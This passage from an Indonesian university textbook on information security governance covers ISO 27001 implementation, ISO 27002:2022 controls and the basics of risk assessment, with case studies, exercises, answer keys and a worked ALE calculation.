**Konteks:** Sebuah fintech dengan 100 karyawan memenangkan kontrak dengan bank besar yang mensyaratkan sertifikasi ISO 27001. Mereka memiliki 6 bulan untuk mencapai kesiapan audit.

**Tahapan Implementasi:**

*Bulan 1-2 (Plan):*
- Workshop gap analysis antara kondisi saat ini dan persyaratan ISO 27001
- Definisi scope ISMS: seluruh operasional platform pinjaman
- Risk assessment mengidentifikasi 47 risiko; 12 di antaranya diklasifikasikan sebagai High
- Statement of Applicability: 82 dari 93 kontrol dinyatakan berlaku

*Bulan 3-4 (Do):*
- Kembangkan dan implementasikan kebijakan keamanan informasi
- Implementasikan kontrol prioritas: MFA, enkripsi data, DLP, access control review
- Pelatihan security awareness untuk semua karyawan
- Dokumentasikan prosedur operasional yang sebelumnya tidak terdokumentasi

*Bulan 5 (Check):*
- Internal audit oleh tim yang berpengalaman
- 23 temuan ditemukan: 2 major, 8 minor, 13 opportunity for improvement
- Management Review menganalisis temuan dan menetapkan tindakan korektif

*Bulan 6 (Act + Sertifikasi):*
- Tindakan korektif diselesaikan untuk 2 major finding
- Stage 1 Audit (document review) dan Stage 2 Audit (on-site) oleh badan sertifikasi
- Sertifikat ISO 27001:2022 diterbitkan

---

## 7. Praktikum atau Aktivitas Terarah

### Praktikum 9.1: Menyusun Statement of Applicability (SoA)

**Tujuan:** Melatih kemampuan mengidentifikasi kontrol Annex A yang berlaku dan justifikasinya.

**Skenario:** Perusahaan e-learning dengan 200 mahasiswa aktif, konten digital senilai USD 500.000, dan 15 karyawan.

**Langkah:**
1. Baca deskripsi skenario secara lengkap
2. Untuk 20 kontrol Annex A yang dipilih dosen, tentukan: berlaku (Y/N), justifikasi (mengapa), dan status implementasi yang direkomendasikan
3. Identifikasi 3 kontrol yang tidak berlaku dan berikan justifikasi penolakan yang kuat
4. Susun dalam format SoA (Template Lampiran B.1)

**Kriteria Keberhasilan:** Justifikasi penerapan yang logis dan berbasis risiko; penolakan kontrol yang dapat dipertahankan secara audit.

---

## 8. Latihan Pemahaman

**Soal 1 (PG):** Klausul ISO 27001 yang mewajibkan organisasi melakukan risk assessment dan menetapkan rencana risk treatment adalah:
A. Klausul 5   B. Klausul 6   C. Klausul 8   D. Klausul 9

**Soal 2 (PG):** Dokumen yang menyatakan kontrol Annex A mana yang berlaku, mengapa, dan status implementasinya disebut:
A. Risk Register   B. Risk Treatment Plan   C. Statement of Applicability   D. Information Security Policy

**Soal 3 (Esai):** Jelaskan perbedaan antara ISO 27001 dan ISO 27002. Mengapa kedua standar ini saling melengkapi dan bukan menggantikan satu sama lain?

**Soal 4 (Analisis):** Sebuah perusahaan sudah bersertifikat ISO 27001 namun mengalami insiden kebocoran data pelanggan. Apa yang mungkin salah? Apakah sertifikasi ISO 27001 menjamin tidak akan terjadi insiden keamanan?

**Soal 5 (Perancangan):** Rancang kebijakan Keamanan Informasi (Information Security Policy) yang memenuhi persyaratan ISO 27001:2022 klausul 5.2 untuk sebuah klinik dengan 3 dokter dan 10 staf.

---

## 9. Latihan Terapan / Studi Kasus

### Studi Kasus: Scope ISMS untuk Organisasi Hybrid (Cloud + On-premise)

Sebuah perusahaan logistik sedang mempersiapkan sertifikasi ISO 27001. Mereka memiliki: kantor pusat di Jakarta dengan data center on-premise; 5 gudang di berbagai kota; platform tracking berbasis cloud (AWS); dan 500 pengemudi yang menggunakan aplikasi mobile.

**Pertanyaan:**
1. **Desain Scope ISMS (C4)**: Rancang scope ISMS yang sesuai. Apa yang seharusnya dan tidak seharusnya masuk ke dalam scope? Berikan justifikasi untuk setiap keputusan scope berdasarkan risiko dan pertimbangan praktis.

2. **Risk Assessment Awal (C5)**: Identifikasi 5 risiko keamanan informasi yang paling signifikan untuk perusahaan logistik ini. Untuk setiap risiko, gunakan format: Aset → Ancaman → Kerentanan → Dampak (terhadap CIA) → Likelihood → Risk Level → Rekomendasi Treatment.

---

## 10. Kunci Jawaban dan Pembahasan

**Soal 1 — B (Klausul 6):** Klausul 6 (Planning) mencakup 6.1 yang mewajibkan risk assessment dan 6.1.3 yang mewajibkan risk treatment plan. Implementasi risk treatment ada di Klausul 8 (Operation).

**Soal 2 — C (Statement of Applicability):** SoA adalah dokumen persyaratan normatif ISO 27001 (Klausul 6.1.3.d). Ini adalah dokumen audit yang kritis — auditor sertifikasi akan memeriksa SoA secara menyeluruh.

**Soal 3:** ISO 27001 adalah standar **persyaratan** (requirements standard) — menetapkan *apa* yang harus dilakukan untuk memiliki ISMS yang efektif, dapat disertifikasi, dan sesuai standar. ISO 27002 adalah **panduan implementasi** — memberikan detail *bagaimana* mengimplementasikan kontrol keamanan yang direferensikan dalam Annex A ISO 27001. Tanpa ISO 27001, ISO 27002 hanya panduan tanpa kerangka manajemen. Tanpa ISO 27002, ISO 27001 Annex A hanya daftar kontrol tanpa panduan implementasi.

**Soal 4:** Sertifikasi ISO 27001 **tidak menjamin** tidak ada insiden keamanan. Sertifikasi membuktikan bahwa: (a) ada ISMS yang terdokumentasi, (b) risk assessment dilakukan, (c) kontrol diimplementasikan sesuai rencana. Namun, insiden dapat terjadi karena: kontrol diimplementasikan tetapi tidak efektif; ancaman baru muncul sejak audit terakhir; human error; atau zero-day exploit. ISO 27001 meminimalkan risiko, bukan menghilangkannya.

---

## 11. Ringkasan Bab

ISO/IEC 27001:2022 menyediakan kerangka yang komprehensif untuk membangun, mengimplementasikan, memelihara, dan terus meningkatkan ISMS. Strukturnya berbasis siklus PDCA memastikan bahwa ISMS bukan proyek satu kali, melainkan proses yang berkelanjutan dan adaptif.

Klausul 4-10 membangun fondasi manajemen: konteks, kepemimpinan, perencanaan, dukungan, operasional, evaluasi, dan peningkatan. Annex A dengan 93 kontrol dalam 4 tema memberikan referensi komprehensif tentang kontrol keamanan yang perlu dipertimbangkan berdasarkan hasil risk assessment.

---

## 12. Refleksi Profesional

**Pertanyaan Refleksi 1:** Sertifikasi ISO 27001 membutuhkan investasi yang signifikan. Organisasi kecil mungkin menghabiskan puluhan juta rupiah untuk konsultan, audit, dan implementasi kontrol. Apakah ada alternatif yang lebih terjangkau namun tetap membuktikan komitmen keamanan kepada pelanggan atau regulator? Bagaimana Anda menasihati UKM yang ingin meningkatkan keamanan tetapi tidak mampu mengejar sertifikasi penuh?

**Pertanyaan Refleksi 2:** Risk treatment option "Accept" (menerima risiko) menjadi keputusan resmi dalam ISO 27001. Dalam konteks apa penerimaan risiko merupakan keputusan yang bertanggung jawab, dan dalam konteks apa menjadi keputusan yang tidak etis? Siapa yang seharusnya memiliki otoritas untuk menyetujui penerimaan risiko tinggi?

---

# BAB 10 — ISO/IEC 27002:2022: KONTROL KEAMANAN INFORMASI

**Pertemuan:** 10  
**Sub-CPMK:** Sub-CPMK.4  
**CPMK:** CPMK.3, CPMK.4  
**Evaluasi:** Eval-4

---

## 1. Capaian Pembelajaran Bab

Setelah menyelesaikan Bab 10, mahasiswa mampu:

- Menjelaskan struktur ISO/IEC 27002:2022 dan empat tema kontrol keamanan.
- Mengidentifikasi dan mendeskripsikan kontrol-kontrol kunci di setiap tema.
- Memetakan kontrol ISO 27002 ke risiko organisasi yang spesifik.
- Mengevaluasi apakah suatu kontrol telah diimplementasikan dengan efektif.
- Menggunakan konsep atribut kontrol (preventive, detective, corrective) dalam analisis.

---

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    ISO27002["ISO/IEC 27002:2022\n93 Kontrol Keamanan"] --> T1["Tema A: Organizational\n37 kontrol"]
    ISO27002 --> T2["Tema B: People\n8 kontrol"]
    ISO27002 --> T3["Tema C: Physical\n14 kontrol"]
    ISO27002 --> T4["Tema D: Technological\n34 kontrol"]
    
    T1 --> T1a["Kebijakan, Peran\nManajemen Risiko\nSupply Chain\nIncident Management\nBusiness Continuity\nCompliance"]
    T2 --> T2a["Screening\nTerms of Employment\nOffboarding\nAwareness Training\nDisciplinary Process"]
    T3 --> T3a["Physical Perimeter\nEntry Controls\nClear Desk/Screen\nEquipment Security\nPhysical Media"]
    T4 --> T4a["Access Control\nAuthentication\nCryptography\nLogging & Monitoring\nNetwork Security\nSecure Coding\nVulnerability Management"]
    
    ISO27002 --> Attr["Atribut Kontrol\n(Setiap kontrol diatributkan)"]
    Attr --> Attr1["Control Type:\nPreventive/Detective/Corrective"]
    Attr --> Attr2["InfoSec Property:\nConfidentiality/Integrity/Availability"]
    Attr --> Attr3["Cybersecurity Concept:\nIdentify/Protect/Detect/Respond/Recover"]
    Attr --> Attr4["Operational Capability"]
    Attr --> Attr5["Security Domain"]
```

---

## 3. Pengantar Kontekstual

ISO/IEC 27002:2022 adalah panduan implementasi yang merinci 93 kontrol keamanan informasi, menggantikan versi 2013 yang memiliki 114 kontrol dalam 14 klausul. Reorganisasi ke dalam 4 tema yang lebih modern, penambahan 11 kontrol baru, dan pengenalan sistem atribut kontrol menjadikan ISO 27002:2022 lebih relevan untuk tantangan keamanan siber kontemporer.

Yang membedakan ISO 27002:2022 dari dokumen standar biasa adalah strukturnya yang kaya: setiap kontrol disertai atribut, tujuan, panduan implementasi, dan informasi tambahan. Ini bukan sekadar checklist — ini adalah panduan komprehensif yang dapat digunakan baik oleh tim teknis maupun manajemen.

---

## 4. Landasan Teori

### 4.1 Struktur ISO/IEC 27002:2022

**Sistem Atribut Kontrol:**
Setiap kontrol dalam ISO 27002:2022 memiliki lima atribut:

| Atribut | Nilai yang Mungkin |
|---|---|
| **Control Type** | Preventive, Detective, Corrective |
| **Information Security Properties** | Confidentiality, Integrity, Availability |
| **Cybersecurity Concepts** | Identify, Protect, Detect, Respond, Recover |
| **Operational Capabilities** | Governance, Asset management, Information protection, dsb. |
| **Security Domains** | Governance and Ecosystem, Protection, Defence, Resilience |

### 4.2 Tema A: Organizational Controls (A.5)

37 kontrol yang berkaitan dengan kebijakan, proses, dan manajemen:

**Kontrol Kunci yang Sering Diuji:**

**A.5.1 — Policies for Information Security:**
Organisasi harus memiliki kebijakan keamanan informasi yang disetujui manajemen puncak, dikomunikasikan kepada semua staf, dan ditinjau secara berkala.

**A.5.7 — Threat Intelligence (BARU):**
Organisasi harus mengumpulkan dan menganalisis informasi tentang ancaman yang relevan untuk mengantisipasi dan merespons secara tepat. Ini adalah formalisasi dari kebutuhan akan threat intelligence program.

**A.5.23 — Information Security for Use of Cloud Services (BARU):**
Proses untuk akuisisi, penggunaan, manajemen, dan exit dari layanan cloud harus didefinisikan berdasarkan persyaratan keamanan informasi organisasi.

**A.5.30 — ICT Readiness for Business Continuity (BARU):**
Kesiapan ICT untuk mendukung business continuity harus direncanakan, diimplementasikan, diverifikasi, dan ditinjau berdasarkan tujuan business continuity dan persyaratan ICT.

**A.5.36 — Compliance with Policies, Rules, and Standards:**
Kepatuhan terhadap kebijakan, aturan, dan standar harus diverifikasi secara berkala.

### 4.3 Tema B: People Controls (A.6)

8 kontrol yang berkaitan dengan sumber daya manusia:

**A.6.1 — Screening:**
Verifikasi latar belakang semua kandidat karyawan (dan kontraktor) harus dilakukan sebelum joining, sesuai hukum dan regulasi yang berlaku.

**A.6.2 — Terms and Conditions of Employment:**
Kontrak kerja harus menyatakan tanggung jawab keamanan informasi karyawan dan organisasi.

**A.6.3 — Information Security Awareness, Education, and Training:**
Semua karyawan harus menerima pelatihan kesadaran keamanan yang relevan secara berkala.

**A.6.5 — Responsibilities After Termination or Change of Employment:**
Tanggung jawab keamanan informasi yang berlaku setelah termination atau perubahan jabatan harus didefinisikan, dikomunikasikan, dan ditegakkan (misal: NDA, return of assets, pencabutan akses).

### 4.4 Tema C: Physical Controls (A.7)

14 kontrol keamanan fisik:

**A.7.1 — Physical Security Perimeters:**
Perimeter keamanan fisik (pagar, dinding, kartu akses) harus didefinisikan untuk area yang menyimpan informasi sensitif atau fasilitas IT.

**A.7.2 — Physical Entry:**
Area aman harus dilindungi dengan kontrol entry yang memadai untuk memastikan hanya personel yang berwenang yang dapat mengakses.

**A.7.7 — Clear Desk and Clear Screen:**
Kebijakan clear desk (tidak meninggalkan dokumen sensitif di atas meja) dan clear screen (mengunci workstation saat tidak digunakan) harus diterapkan.

**A.7.9 — Security of Assets Off-Premises:**
Aset yang dibawa keluar dari lokasi (laptop, ponsel, dokumen) harus dilindungi sesuai risikonya.

### 4.5 Tema D: Technological Controls (A.8)

34 kontrol teknologi:

**A.8.2 — Privileged Access Rights:**
Alokasi dan penggunaan hak akses istimewa harus dikontrol dan dibatasi — implementasi Least Privilege.

**A.8.5 — Secure Authentication:**
Teknologi autentikasi yang aman harus diterapkan berdasarkan pembatasan akses informasi dan kebijakan kontrol akses. MFA adalah standar minimum untuk sistem kritis.

**A.8.12 — Data Leakage Prevention (BARU):**
Langkah-langkah pencegahan kebocoran data harus diterapkan pada sistem, jaringan, dan perangkat yang memproses, menyimpan, atau mentransmisikan informasi sensitif.

**A.8.15 — Logging:**
Log yang merekam aktivitas, eksepsi, kesalahan, dan event keamanan informasi relevan harus dihasilkan, disimpan, dilindungi, dan dianalisis.

**A.8.16 — Monitoring Activities (BARU):**
Jaringan, sistem, dan aplikasi harus dimonitor untuk mendeteksi perilaku anomali dan mengambil tindakan yang tepat untuk mengevaluasi insiden keamanan informasi yang mungkin terjadi.

**A.8.25 — Secure Development Life Cycle:**
Aturan untuk pengembangan perangkat lunak dan sistem yang aman harus ditetapkan dan diterapkan.

**A.8.28 — Secure Coding (BARU):**
Prinsip secure coding harus diterapkan dalam pengembangan perangkat lunak.

---

## 5. Model atau Arsitektur

### 5.1 Pemetaan Kontrol ISO 27002 ke CIA dan Cybersecurity Concepts

```mermaid
flowchart LR
    subgraph CIA2["CIA Properties"]
        C2["Confidentiality"]
        I2["Integrity"]
        A2["Availability"]
    end
    
    subgraph CSF2["CSF Concepts"]
        ID3["Identify"]
        PR3["Protect"]
        DE3["Detect"]
        RS3["Respond"]
        RC3["Recover"]
    end
    
    Controls["Kontrol ISO 27002:2022"] --> CIA2
    Controls --> CSF2
    
    A5_7["A.5.7\nThreat Intelligence"] --> ID3
    A5_7 --> C2 & I2 & A2
    
    A8_5["A.8.5\nSecure Authentication"] --> PR3
    A8_5 --> C2
    
    A8_15["A.8.15\nLogging"] --> DE3 & RS3
    A8_15 --> C2 & I2
    
    A5_30["A.5.30\nBusiness Continuity"] --> RC3
    A5_30 --> A2
```

---

## 6. Contoh Terapan

### Studi Kasus: Pemetaan Kontrol ISO 27002 untuk Risiko Data Breach

**Skenario:** Sebuah rumah sakit melakukan risk assessment dan menemukan risiko tinggi: "Karyawan tidak berwenang mengakses rekam medis elektronik pasien."

**Pemetaan Kontrol ISO 27002 yang Relevan:**

| Kontrol | Kode | Jenis | Implementasi |
|---|---|---|---|
| User Access Management | A.8.2 (Privileged Access), A.8.3 (Information Access Restriction) | Preventive | RBAC berdasarkan jabatan; akses ke rekam medis hanya untuk tenaga medis yang merawat |
| Secure Authentication | A.8.5 | Preventive | MFA untuk akses ke sistem RME |
| Logging | A.8.15 | Detective | Semua akses ke rekam medis di-log dengan identitas, timestamp, dan tindakan |
| Monitoring | A.8.16 | Detective | Alert otomatis jika satu pengguna mengakses lebih dari 50 rekam medis dalam 1 jam |
| Clear Desk/Screen | A.7.7 | Preventive | Workstation di-lock otomatis setelah 5 menit idle |
| DLP | A.8.12 | Detective/Corrective | Blokir pengiriman rekam medis melalui email eksternal |

---

## 7. Praktikum — Pemetaan Kontrol ISO 27002 ke Skenario Risiko

**Tujuan:** Melatih kemampuan memilih kontrol ISO 27002 yang tepat untuk skenario risiko spesifik.

**Tugas:** Untuk 5 skenario risiko yang diberikan dosen, identifikasi 3-5 kontrol ISO 27002 yang paling relevan, jelaskan bagaimana kontrol tersebut mengurangi risiko, dan tentukan apakah kontrol tersebut bersifat preventive, detective, atau corrective.

---

## 8. Latihan Pemahaman

**Soal 1 (PG):** Kontrol ISO 27002:2022 yang secara spesifik menangani risiko kebocoran data melalui email adalah:
A. A.8.15 (Logging)   B. A.8.12 (Data Leakage Prevention)   C. A.6.3 (Training)   D. A.5.23 (Cloud Services)

**Soal 2 (PG):** Seorang karyawan yang berhenti bekerja dan mempertahankan NDA untuk melindungi rahasia perusahaan merupakan implementasi dari kontrol:
A. A.6.5   B. A.6.1   C. A.7.7   D. A.8.2

**Soal 3 (Esai):** Jelaskan bagaimana atribut "Control Type" (Preventive/Detective/Corrective) membantu dalam perencanaan program keamanan yang seimbang. Berikan contoh satu kontrol untuk setiap tipe.

**Soal 4:** Sebuah organisasi memiliki anggaran terbatas untuk implementasi kontrol ISO 27002. Dengan hanya dapat mengimplementasikan 10 kontrol dari 93 yang ada, kontrol mana yang seharusnya diprioritaskan dan mengapa? (Asumsikan konteks: perusahaan keuangan menengah dengan 200 karyawan)

**Soal 5:** A.5.7 (Threat Intelligence) adalah kontrol baru di ISO 27002:2022. Jelaskan mengapa kontrol ini dianggap cukup penting untuk ditambahkan, dan bagaimana implementasi minimumnya untuk perusahaan dengan anggaran terbatas.

---

## 9. Latihan Terapan / Studi Kasus

### Studi Kasus: Evaluasi Efektivitas Implementasi Kontrol

Sebuah bank telah mengimplementasikan 75 dari 93 kontrol ISO 27002:2022 dan baru saja mengalami insiden: seorang karyawan di departemen keuangan menggunakan akun yang sudah tidak aktif (mantan karyawan yang keluar 3 bulan lalu) untuk mentransfer dana ke rekening pribadinya.

**Pertanyaan:**
1. **Identifikasi Kontrol yang Gagal (C4)**: Identifikasi minimal 4 kontrol ISO 27002 yang seharusnya mencegah atau mendeteksi insiden ini, dan jelaskan mengapa kontrol tersebut tampaknya gagal atau tidak diimplementasikan dengan efektif.

2. **Rekomendasi Perbaikan (C5)**: Untuk setiap kontrol yang gagal, rekomendasikan perbaikan spesifik yang akan membuatnya efektif. Pertimbangkan juga prosedur SoD untuk mencegah fraud serupa di masa depan.

---

## 10. Kunci Jawaban dan Pembahasan

**Soal 1 — B (A.8.12):** A.8.12 Data Leakage Prevention secara eksplisit menangani pencegahan kebocoran data melalui berbagai saluran termasuk email. A.8.15 (Logging) hanya mencatat aktivitas, tidak mencegah kebocoran.

**Soal 2 — A (A.6.5):** A.6.5 "Responsibilities After Termination or Change of Employment" secara eksplisit mencakup kewajiban kerahasiaan (NDA) yang tetap berlaku setelah karyawan tidak lagi bekerja.

**Soal 3:** Preventive controls mencegah insiden terjadi (contoh: A.8.5 Secure Authentication — mencegah akses tidak sah). Detective controls mendeteksi insiden yang sudah terjadi (contoh: A.8.15 Logging — merekam dan memungkinkan deteksi aktivitas mencurigakan). Corrective controls memperbaiki kondisi setelah insiden (contoh: A.5.26 Response to Information Security Incidents — memulihkan operasi normal). Program keamanan yang seimbang membutuhkan ketiganya — hanya mengandalkan preventive controls menciptakan false security, karena tidak ada kontrol yang 100% efektif.

---

## 11. Ringkasan Bab

ISO/IEC 27002:2022 menyediakan 93 kontrol keamanan informasi yang terorganisasi dalam 4 tema: Organizational, People, Physical, dan Technological. Sistem atribut yang baru memungkinkan analisis multi-dimensi dari setiap kontrol — apakah bersifat preventive/detective/corrective, aspek CIA mana yang dilindungi, dan konsep cybersecurity mana yang dicakup.

11 kontrol baru dalam versi 2022 mencerminkan evolusi ancaman dan teknologi: threat intelligence, cloud security, data leakage prevention, secure coding, dan monitoring activities adalah tambahan yang sangat relevan untuk lanskap keamanan siber modern.

---

## 12. Refleksi Profesional

**Pertanyaan Refleksi 1:** ISO 27002:2022 menambahkan kontrol A.8.28 (Secure Coding) sebagai respons terhadap meningkatnya kerentanan yang berasal dari praktik pengembangan yang tidak aman. Namun, banyak developer merasa bahwa persyaratan keamanan memperlambat proses pengembangan. Bagaimana Anda membangun budaya "security by design" dalam tim pengembangan tanpa mengorbankan kecepatan rilis?

**Pertanyaan Refleksi 2:** Beberapa kontrol ISO 27002, seperti A.6.1 (Screening karyawan), melibatkan pengumpulan data pribadi kandidat. Bagaimana Anda menyeimbangkan kebutuhan keamanan (mengetahui latar belakang calon karyawan) dengan privasi individu dan peraturan perlindungan data (UU PDP Indonesia)?

---

# BAB 11 — MANAJEMEN RISIKO SIBER: RISK ASSESSMENT DAN RISK TREATMENT

**Pertemuan:** 11  
**Sub-CPMK:** Sub-CPMK.4  
**CPMK:** CPMK.4  
**Evaluasi:** Eval-4

---

## 1. Capaian Pembelajaran Bab

Setelah menyelesaikan Bab 11, mahasiswa mampu:

- Menjelaskan konsep dan terminologi manajemen risiko sesuai ISO 31000 dan NIST SP 800-30.
- Melakukan risk assessment menggunakan pendekatan kualitatif dan kuantitatif.
- Menghitung ALE (Annual Loss Expectancy), SLE (Single Loss Expectancy), dan ARO (Annualized Rate of Occurrence).
- Menyusun risk register yang komprehensif dan dapat diaudit.
- Merancang rencana risk treatment berdasarkan opsi mitigasi, transfer, penghindaran, atau penerimaan.

---

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    RM["Manajemen Risiko\nKeamanan Informasi"] --> Framework["Framework"]
    RM --> Process["Proses"]
    RM --> Output["Output"]
    
    Framework --> ISO31000["ISO 31000\nRisk Management Principles"]
    Framework --> NISTSP["NIST SP 800-30\nRisk Assessment Guide"]
    
    Process --> Identify2["1. Identifikasi Risiko\n(Aset, Ancaman, Kerentanan)"]
    Process --> Analyze["2. Analisis Risiko\n(Likelihood × Impact)"]
    Process --> Evaluate["3. Evaluasi Risiko\n(vs Risk Criteria)"]
    Process --> Treat["4. Perlakuan Risiko\n(Mitigate/Transfer/Avoid/Accept)"]
    Process --> Monitor2["5. Monitor & Review\n(KRI, Risk Register Update)"]
    
    Output --> RR["Risk Register"]
    Output --> RTP["Risk Treatment Plan"]
    Output --> SoA2["Statement of Applicability\n(untuk ISO 27001)"]
    
    Analyze --> Qual["Kualitatif\n(High/Medium/Low Matrix)"]
    Analyze --> Quant["Kuantitatif\n(ALE = SLE × ARO)"]
```

---

## 3. Pengantar Kontekstual

Manajemen risiko adalah inti dari semua keputusan keamanan siber yang rasional. Tanpa pemahaman tentang risiko, anggaran keamanan dihabiskan berdasarkan intuisi atau ketakutan, bukan berdasarkan data. Setiap keputusan — membeli firewall baru, melatih karyawan, mengasuransikan aset siber — seharusnya dapat dijustifikasi melalui analisis biaya-risiko yang terstruktur.

NIST SP 800-30 (Guide for Conducting Risk Assessments) adalah salah satu panduan paling komprehensif dan banyak digunakan untuk risk assessment keamanan informasi. Dikombinasikan dengan prinsip-prinsip ISO 31000 (Risk Management), framework ini menyediakan metodologi yang dapat diterapkan di berbagai konteks organisasi.

---

## 4. Landasan Teori

### 4.1 Terminologi Dasar Manajemen Risiko

> **Risiko (Risk):** Kemungkinan suatu ancaman mengeksploitasi kerentanan aset dan menyebabkan dampak negatif bagi organisasi.

> **Rumus Risiko Dasar:** Risk = Threat × Vulnerability × Impact

**Terminologi Kunci:**

| Istilah | Definisi | Contoh |
|---|---|---|
| **Asset (Aset)** | Apa saja yang bernilai bagi organisasi | Database nasabah, sistem ERP, reputasi |
| **Threat (Ancaman)** | Kejadian atau kondisi yang dapat menyebabkan kerusakan | Ransomware, insider fraud, gempa bumi |
| **Vulnerability (Kerentanan)** | Kelemahan yang dapat dieksploitasi oleh ancaman | Patch yang belum diterapkan, password lemah |
| **Likelihood (Kemungkinan)** | Probabilitas ancaman mengeksploitasi kerentanan | Tinggi/Sedang/Rendah atau 0.0-1.0 |
| **Impact (Dampak)** | Besarnya kerusakan jika risiko terwujud | Finansial, reputasi, operasional, hukum |
| **Risk (Risiko)** | Kombinasi likelihood dan impact | High/Medium/Low atau nilai numerik |
| **Risk Appetite** | Tingkat risiko yang bersedia diterima organisasi | "Kami tidak akan menerima risiko > Medium untuk data nasabah" |
| **Risk Tolerance** | Variasi yang dapat diterima di sekitar risk appetite | Buffer operasional di atas/bawah risk appetite |
| **Residual Risk** | Risiko yang tersisa setelah penerapan kontrol | Risk setelah mitigasi |
| **Inherent Risk** | Risiko sebelum penerapan kontrol apapun | Risk baseline tanpa kontrol |

### 4.2 Pendekatan Kualitatif vs Kuantitatif

#### Pendekatan Kualitatif

Menggunakan skala deskriptif (Tinggi/Sedang/Rendah) untuk menilai likelihood dan impact.

**Risk Matrix 5×5:**

| | Very Low Impact | Low Impact | Medium Impact | High Impact | Very High Impact |
|---|---|---|---|---|---|
| **Very High Likelihood** | Medium | Medium | High | Critical | Critical |
| **High Likelihood** | Low | Medium | High | High | Critical |
| **Medium Likelihood** | Low | Medium | Medium | High | High |
| **Low Likelihood** | Low | Low | Medium | Medium | High |
| **Very Low Likelihood** | Low | Low | Low | Medium | Medium |

**Keunggulan:** Cepat, mudah dipahami, tidak membutuhkan data historis
**Kelemahan:** Subyektif, sulit untuk membandingkan secara objektif, tidak memberikan angka untuk justifikasi biaya investasi keamanan

#### Pendekatan Kuantitatif

Menggunakan nilai moneter untuk mengukur risiko secara objektif.

**Terminologi Kuantitatif:**

| Istilah | Singkatan | Definisi | Rumus |
|---|---|---|---|
| Asset Value | AV | Nilai moneter aset | — |
| Exposure Factor | EF | Persentase aset yang hilang jika insiden terjadi | % dari AV |
| Single Loss Expectancy | SLE | Kerugian yang diharapkan dari satu kejadian | SLE = AV × EF |
| Annualized Rate of Occurrence | ARO | Frekuensi kejadian yang diharapkan per tahun | — |
| Annual Loss Expectancy | ALE | Kerugian tahunan yang diharapkan | ALE = SLE × ARO |

**Contoh Perhitungan ALE:**
```
Skenario: Ransomware menyerang server database nasabah

Asset Value (AV) = Rp 5.000.000.000 (nilai database + downtime)
Exposure Factor (EF) = 40% (40% data terenkripsi, biaya pemulihan 40% dari AV)
Single Loss Expectancy (SLE) = Rp 5.000.000.000 × 40% = Rp 2.000.000.000
Annualized Rate of Occurrence (ARO) = 0.3 (30% kemungkinan terjadi per tahun)
Annual Loss Expectancy (ALE) = Rp 2.000.000.000 × 0.3 = Rp 600.000.000

Jika backup solution seharga Rp 200.000.000/tahun dapat mengurangi EF menjadi 5%:
SLE baru = Rp 5.000.000.000 × 5% = Rp 250.000.000
ALE baru = Rp 250.000.000 × 0.3 = Rp 75.000.000
ALE yang direduksi = Rp 600.000.000 - Rp 75.000.000 = Rp 525.000.000

ROI investasi backup = (Rp 525.000.000 - Rp 200.000.000) / Rp 200.000.000 = 162.5%
```

Ini adalah justifikasi berbasis data untuk investasi backup — jauh lebih kuat daripada sekadar "backup itu penting".

**Keterbatasan Pendekatan Kuantitatif:**
- Nilai ARO sulit diestimasi secara akurat tanpa data historis yang panjang
- Nilai aset non-finansial (reputasi, kepercayaan) sulit dihitung
- Memberikan angka yang tampak presisi tetapi sebenarnya mengandung ketidakpastian yang tinggi

### 4.3 NIST SP 800-30 Risk Assessment Methodology

NIST SP 800-30 mendefinisikan proses risk assessment yang terdiri dari 4 langkah utama:

**Langkah 1: Prepare for Assessment**
- Tentukan tujuan, scope, dan asumsi
- Identifikasi sumber ancaman yang relevan
- Tentukan model risiko yang akan digunakan

**Langkah 2: Conduct the Assessment**
- Identifikasi sumber ancaman (*threat sources*): adversarial (hacker, APT), accidental (human error), structural (hardware failure), environmental (bencana alam)
- Identifikasi event ancaman (*threat events*): eksploitasi kerentanan, phishing, dll.
- Identifikasi kerentanan dan kondisi predisposisi
- Tentukan likelihood kejadian
- Tentukan dampak jika risiko terwujud
- Tentukan tingkat risiko (likelihood × impact)

**Langkah 3: Communicate Results**
- Laporan risk assessment dengan temuan dan rekomendasi

**Langkah 4: Maintain the Assessment**
- Update secara berkala atau ketika ada perubahan signifikan

### 4.4 Risk Register

Risk register adalah dokumen terpusat yang mendokumentasikan semua risiko yang diidentifikasi, beserta informasi yang diperlukan untuk mengelolanya.

**Format Risk Register:**

| ID | Aset | Ancaman | Kerentanan | Dampak | Likelihood | Risk Level | Pemilik | Tindakan Treatment | Status | Target Date |
|---|---|---|---|---|---|---|---|---|---|---|
| R-001 | Database Nasabah | Ransomware | Patch tertinggal | High | Medium | High | CISO | Patch segera + backup offsite | In Progress | 2025-01-31 |
| R-002 | Akun Admin | Credential Theft | Tidak ada MFA | High | High | Critical | IT Manager | Implementasi MFA segera | Open | 2025-01-15 |

### 4.5 Opsi Risk Treatment

Setelah risiko diidentifikasi dan dievaluasi, organisasi memilih cara mengelolanya:

**1. Mitigate (Kurangi):** Implementasikan kontrol untuk mengurangi likelihood dan/atau dampak. Paling umum digunakan.

**2. Transfer (Alihkan):** Pindahkan risiko ke pihak lain:
- Asuransi siber (*cyber insurance*)
- Kontrak outsourcing dengan klausul keamanan dan SLA
- Transfer tidak menghilangkan risiko — hanya mengalihkan konsekuensi finansialnya

**3. Avoid (Hindari):** Hentikan aktivitas yang menimbulkan risiko. Misalnya, tidak menggunakan sistem legacy yang tidak dapat di-patch, tidak menerima pembayaran dengan metode yang sangat rentan terhadap fraud.

**4. Accept (Terima):** Secara sadar menerima risiko karena biaya mitigasi melebihi potensi kerugian, atau karena risiko berada di bawah threshold toleransi. Penerimaan risiko HARUS terdokumentasi dan disetujui oleh pihak yang berwenang.

---

## 5. Model atau Arsitektur

### 5.1 Siklus Manajemen Risiko

```mermaid
flowchart TD
    Context["Establish Context\n(Scope, Criteria, Risk Appetite)"]
    Identify3["Identify Risks\n(Aset → Ancaman → Kerentanan)"]
    Analyze2["Analyze Risks\n(Likelihood × Impact)"]
    Evaluate2["Evaluate Risks\n(vs Risk Criteria)"]
    Treat2["Treat Risks\n(Mitigate/Transfer/Avoid/Accept)"]
    Monitor3["Monitor & Review\n(Risk Register Update, KRI)"]
    Communicate["Communicate & Consult\n(Stakeholder Engagement)"]
    
    Context --> Identify3 --> Analyze2 --> Evaluate2 --> Treat2 --> Monitor3 --> Identify3
    Communicate -.->|"Berlangsung\nterus-menerus"| Context & Identify3 & Analyze2 & Evaluate2 & Treat2 & Monitor3
    
    style Context fill:#1565c0,color:#fff
    style Treat2 fill:#1b5e20,color:#fff
    style Monitor3 fill:#4a148c,color:#fff
```

---

## 6. Contoh Terapan

